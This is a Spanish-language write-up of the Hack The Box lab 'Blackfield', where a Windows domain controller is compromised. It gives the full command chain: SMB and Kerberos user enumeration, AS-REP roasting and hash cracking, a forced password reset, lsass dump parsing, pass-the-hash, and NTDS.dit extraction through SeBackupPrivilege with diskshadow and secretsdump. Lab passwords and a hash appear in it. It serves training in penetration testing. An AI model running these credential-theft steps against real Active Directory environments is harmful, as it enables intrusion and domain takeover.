


# Blackfield

`Backfield` es una máquina Windows de dificultad alta que presenta configuraciones incorrectas de Windows y Active Directory. El acceso anónimo/de invitado a un recurso compartido `SMB` se utiliza para enumerar usuarios. Una vez que se descubre que el usuario tiene la autenticación previa de Kerberos deshabilitada, lo que nos permite realizar un ataque `ASREPRoasting`. Esto nos permite recuperar un hash del material cifrado contenido en el `AS-REP`, que puede someterse a un ataque de fuerza bruta fuera de línea para recuperar la contraseña de texto sin formato.

Con este usuario podemos acceder a un recurso compartido `SMB` que contiene artefactos forenses, incluido un volcado de proceso lsass. Este contiene un nombre de usuario y una contraseña para un usuario con privilegios `WinRM`, que también es miembro del grupo de operadores de respaldo. Los privilegios conferidos por este grupo privilegiado se utilizan para volcar la base de datos de Active Directory y recuperar el hash del administrador de dominio principal.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Blackfield.&#x20;

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.192 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX.


```bash
nmap -sCV -p53,88,135,389,445,593,3268,5985 10.10.10.192 -A -oN targeted -oX targetedXML
```


<figure><figcaption></figcaption></figure>

Transformaremos el archivo XML obtenido en el resultado de **nmap** y lo transformaremos en un archivo HTML. Levantaremos un servidor HTTP con Python3.

```bash
xsltproc targetedXML > index.html

python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Accederemos a[ http://localhost](http://localhost) y comprobaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio que nos enfrentamos, el nombre del equipo y que tipo de máquina nos enfrentamos.

```bash
ldapsearch -x -H ldap://10.10.10.192 -s base | grep defaultNamingContext

netexec smb 10.10.10.192
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep blackfield
```

<figure><figcaption></figcaption></figure>

Intentaremos de realizar un reconocimiento para enumerar los usuarios a través de **RPC** con **NSrpcenum** sin éxito.

```bash
NSrpcenum -e DUsers -i 10.10.10.192
```

<figure><figcaption></figcaption></figure>

## SMB Enumeration

Procederemos a enumerar los recursos compartidos que hay en el SMB.

```bash
smbclient -L //10.10.10.192 -N
```

<figure><figcaption></figcaption></figure>

A través de **smbmap** probaremos de autenticarnos con el usuario "guest" y ver los permisos que disponemos.

```bash
smbmap -H 10.10.10.192 -u guest -p ''
```

<figure><figcaption></figcaption></figure>

Revisaremos el contenido del recurso compartido "profiles" a través de **smbmap**.

```bash
smbmap -H 10.10.10.192 -u guest -p '' -r profiles$/
```

<figure><figcaption></figcaption></figure>

Accederemos al recurso compartido con el usuario "guest" al recurso compartido "profiles" y nos descargaremos todo el contenido del recurso.

```bash
smbclient //10.10.10.192/profiles$ -U 'guest%'
```

<figure><figcaption></figcaption></figure>

Comprobaremos que hemos descargado 315 directorios pero sin ningún archivo. Al parecer en este recurso compartido parece haber nombres de usuarios.

<figure><figcaption></figcaption></figure>

Guardaremos los nombres de los posibles usuarios en el archivo "users.txt".

## Users Enumeration

### RID Brute Force Attack

A través del usuario "guest" realizaremos un **RID Brute Force Attack** para enumerar a los usuarios mediante SMB a través de un ataque de fuerza bruta del RID. Estos usuarios los añadiremos al archivo "users.txt" sin eliminar los que ya tenemos.


```bash
netexec smb 10.10.10.192 -u 'guest' -p '' --rid-brute | grep SidTypeUser | rev | awk '{print $2}' | rev | sed 's/BLACKFIELD\\//g' > users.txt
```


<figure><figcaption></figcaption></figure>

### Kerberos User Enumeration (Kerbrute)

Del listado de usuarios que disponemos, probaremos de validar los usuarios válidos. Para ello, haremos uso de **kerbrute**.

```bash
kerbrute userenum --dc 10.10.10.192 -d BLACKFIELD.local users.txt
```

<figure><figcaption></figcaption></figure>

Estos archivos que hemos validado los guardaremos en un nuevo archivo "valid\_users.txt".


```bash
cat valid_users.txt | rev | awk '{print $2}' FS="@" | rev | rev | awk '{print $1}' | rev | sponge valid_users.txt
```


<figure><figcaption></figcaption></figure>

De este nuevo listado de usuarios, los validaremos para comprobar que efectivamente todos los que hemos añadido son válidos en el dominio. En total disponemos de unos 335 usuarios en total.

```bash
kerbrute userenum --dc 10.10.10.192 -d BLACKFIELD.local valid_users.txt
```

<figure><figcaption></figcaption></figure>

### AS-REP Roast Attack (GetNPUsers)

Debido que disponemos de una lista potencial de usuarios, probaremos a realizar un **AS-REP Roast Attack** para intentar obtener un Ticket Granting Ticket (TGT) para luego crackearlo de manera offline.

```bash
impacket-GetNPUsers -no-pass -usersfile valid_users.txt BLACKFIELD.local/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

### Cracking Hashes

De los TGT obtenidos procederemos a crackear los hashes con **john** para obtener la contraseña del usuario.

```bash
john --format=krb5asrep hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

Validaremos con **netexec** de autenticarnos al SMB y de comprobar si con estas credenciales podemos acceder al WinRM. Verificamos que las credenciales son válidas, pero no tenemos de permisos suficientes para acceder remotamente al equipo.

```bash
netexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'

netexec winrm 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```

<figure><figcaption></figcaption></figure>

Enumeraremos con este nuevo usuario los recursos compartidos del SMB para ver si disponemos de más acceso del que ya disponíamos con el usuario "guest".

```bash
smbmap -H 10.10.10.192 --no-banner -u support -p '#00^BlackKnight'
```

<figure><figcaption></figcaption></figure>

### Kerberoasting Attack (GetUserSPNs) - \[FAILED]

Ya que disponemos de credenciales de un usuario del dominio válidas, probaremos de realizar un **Kerberoasting Attack** para intentar obtener un Ticket Granting Service (TGS), sin éxito en este caso.

```bash
impacket-GetUserSPNs -dc-ip 10.10.10.192 BLACKFIELD.local/support -request
```

<figure><figcaption></figcaption></figure>

## LDAP Enumeration (ldapdomaindump)

Enumeraremos el LDAP a través de la herramienta **ldapdomaindump**.


```bash
ldapdomaindump -u 'BLACKFIELD.local\support' -p '#00^BlackKnight' 10.10.10.192 -o ldap
```


<figure><figcaption></figcaption></figure>

Verificamos los diferentes archivos de la enumeración de LDAP y comprobamos que el usuario "svc\_backup" forma parte del grupo "Remote Management Users", esto nos puede interesar, ya que con este usuario podríamos conectarnos remotamente en caso de disponer de sus credenciales.

<figure><figcaption></figcaption></figure>

## BloodHound Enumeration

Realizaremos una enumeración con **BloodHound** a través de **bloodhound-python.**


```bash
bloodhound-python -c all -u support -p '#00^BlackKnight' -d BLACKFIELD.local -ns 10.10.10.192
```


<figure><figcaption></figcaption></figure>

### Abusing ForceChangePassword Privilege (net rpc)

Revisando **BloodHound** para buscar una vía potencial de escalar nuestros privilegios, nos damos cuenta que el usuario que tenemos (support@blackfield.local) dispone de permisos "ForceChangePassword" sobre el usuario (audit2020@blackfield.local).

Esto puede ser intersante para realizar un **Lateral Movement.**

<figure><figcaption></figcaption></figure>

Comprobamos que el usuario dispone de permisos para cambiar la contraseña del usuario en cuestión (audit2020@blackfire.local).

<figure><figcaption></figcaption></figure>

Debido que no disponemos de acceso a la máquina para realizarlo en el equipo Windows, lo podemos intentar realizar a través de **net rpc** para realizar el cambio de contraseña.

Realizamos el cambio y verificamos que se ha modificado correctamente las credenciales del usuario. Aún no podemos acceder al WinRM, ya que este usuario tampoco tiene permisos.


```bash
net rpc password "audit2020" "Gzzcoo123" -U 'BLACKFIELD.local/support%#00^BlackKnight' -S 10.10.10.192

netexec smb 10.10.10.192 -u 'audit2020' -p 'Gzzcoo123'

netexec winrm 10.10.10.192 -u 'audit2020' -p 'Gzzcoo123'
```


<figure><figcaption></figcaption></figure>

## Initial Access

### LSASS Dump Analysis (Pypykatz)

Probando de enumerar el SMB con estas nuevas credenciales, comprobamos que este usuario dispone de acceso para el recurso compartido "forensic".

```bash
smbmap -H 10.10.10.192 --no-banner -u audit2020 -p 'Gzzcoo123'
```

<figure><figcaption></figcaption></figure>

Revisaremos el contenido del recurso compartido "forensic" a través de **smbmap**.

```bash
smbmap -H 10.10.10.192 --no-banner -u audit2020 -p 'Gzzcoo123' -r forensic/
```

<figure><figcaption></figcaption></figure>

Enumerando el SMB con **smbclient** nos encontramos que en el recurso (\\\10.10.10.192\forensic\memory\_analysis) hay un comprimido llamado "lsass.zip" que nos hace pensar que se trata del ([Servicio de Subsistema de Autoridad de Seguridad Local](https://books.spartan-cybersec.com/cpad/persistencia-en-windows-local/que-es-mimikatz/lsass)). Como teníoamos problemas a la hora de descargar des de **smbclient** por errores de time out, procederemos a descargar el contenido a través de **smbget**.

```bash
smbclient //10.10.10.192/forensic -U 'audit2020%Gzzcoo123'
```

<figure><figcaption></figcaption></figure>

Descomprimiremos el archivo .zip descargado y comprobaremos que es un .DMP, es decir un volcado de memoria al parecer del LSASS.

<figure><figcaption></figcaption></figure>

Comprobaremos de qué tipo es el volcado de memoria, en este caso, es un volcado de memoria "Mini DuMP".

A través de la herramienta de **pypykatz** analiaremos el volcado de memoria de LSASS. Especificaremos el tipo de volcado (minidump).

Verificaremos que disponemos del hash NTLM del usuario "svc\_backup" y del usuario "Administrator".

```bash
file lsass.DMP

pypykatz lsa minidump lsass.DMP
```

<figure><figcaption></figcaption></figure>

Verificaremos con **netexec** si podemos autenticarnos realizando un **Pass The Hash** con los hashes obtenidos, comprobamos que el del usuario "Administrator" no nos sirve, pero el del usuario "svc\_backup" si.

<figure><figcaption></figcaption></figure>

### Abusing WinRM

Ya sabemos que el usuario "svc\_backup" forma parte del grupo "Remote Management Users" debido que lo habíamos enumerado antes con **ldapdomaindump**, accederemos al WinRM a través de **evil-winrm**.

Verificamos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### SeBackupPrivilege Exploitation

Revisando los permisos del usuario "svc\_backup" comprobamos que dispone del privilegio de **SeBackupPrivilege**. Por lo cual perfectamente nos podríamos dumpear la SAM para obtener los hashes del usuario Administrator (local).

```powershell
whoami /priv
```

<figure><figcaption></figcaption></figure>

Extraeremos la SAM y SYSTEM y nos la descargaremos en nuestra Kali.

```powershell
reg save hklm\sam C:\Windows\Temp\test\SAM

reg save hklm\system C:\Windows\Temp\test\SYSTEM

download SAM

download SYSTEM
```

<figure><figcaption></figcaption></figure>

A través de **samdump2** obtendremos los hashes NTLM de los usuarios locales del equipo.

```bash
samdump2 SYSTEM SAM
```

<figure><figcaption></figcaption></figure>

Validamos que no podemos hacer **Pass The Hash** con el hash del Administrador local. Además queremos ser el Administrador del dominio, no del equipo local.

<figure><figcaption></figcaption></figure>

### DiskShadow

Por lo tanto, ya que disponemos del privilegio **SeBackupPrivilege** y nos encontramos en el Domain Controller, podemos probar de dumpearnos el archivo "NTDS.dit" que es el archivo de la base de datos de Active Directory en los controladores de dominio que almacena todas las cuentas de dominio y sus hashes de contraseña., este archivo solamente se encuentra en el DC.

Comprobamos que no podemos copiarnos a través del comando "copy" el archivo.

<figure><figcaption></figcaption></figure>

Por lo tanto, lo que podemos hacer uso es de **DiskShadow.**&#x20;

DiskShadow en Windows me permite hacer copias exactas de discos (instantáneas) para respaldar y restaurar datos. La uso para guardar el estado de un volumen en un momento específico y recuperarlo si algo falla, además de poder clonar discos fácilmente.

En nuestra Kali crearemos el siguiente archivo .txt que lo que realizará es permitir acceder a una copia exacta del volumen `C:` en `G:` sin afectar los datos en el volumen original.

<mark style="color:red;">Importante</mark>: Dejar un espacio al final de cada instrucción

```powershell
set context persistent nowriters 
add volume c: alias gzzcoo 
create 
expose %gzzcoo% g: 
```

<figure><figcaption></figcaption></figure>

Subiremos este archivo .txt al equipo de Windows.

<figure><figcaption></figcaption></figure>

A través de **DiskShadow** ejecutaremos el contenido de las instrucciones para crear una instantánea del volumen **C:**, guardarlo en un alias "gzzcoo" y exponerlo en la unidad **G:**, para así acceder a la copia de datos en **G:.**

```bash
diskshadow.exe /s C:\Windows\Temp\test\diskshadow.txt
```

<figure><figcaption></figcaption></figure>

### Robocopy Usage

Si con **copy** no podemos copiarnos el archivo **NTDS.dit** que tenemos en el volumen G:, probaremos con el uso de **robocopy** para copiarnos dicho archivo a nuestro directorio actual.

```powershell
robocopy /b g:\Windows\NTDS\ . ntds.dit
```

<figure><figcaption></figcaption></figure>

### NTDS Credentials Extraction (secretsdump)

Comprobaremos que hemos dumpeado el **NTDS.dit** en el directorio que estamos actualmente, nos lo descargaremos a nuestra Kali.

<figure><figcaption></figcaption></figure>

A través de la herramienta de **secretsdump.py** ejecutaremos el siguiente comando.

Este comando sirve para extraer los hashes de contraseñas de Active Directory desde el archivo ntds.dit en nuestro equipo local. El archivo **SYSTEM** es necesario porque contiene la clave de cifrado para descifrar los datos del **NTDS.dit** y obtener los hashes de las contraseñas. Sin el archivo **SYSTEM**, no se pueden extraer los hashes, este archivo lo dumpeamos anteriormente con la **SAM**.

Comprobamos que obtenemos los hashes del usuario Administrador del dominio.

```bash
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

<figure><figcaption></figcaption></figure>

Validaremos que podemos autenticarnos realizando **Pass The Hash** y efectivamente podemos conectarnos al WinRM mediante **evil-winrm**, comprobaremos la flag de **root.txt**.

<figure><figcaption></figcaption></figure>
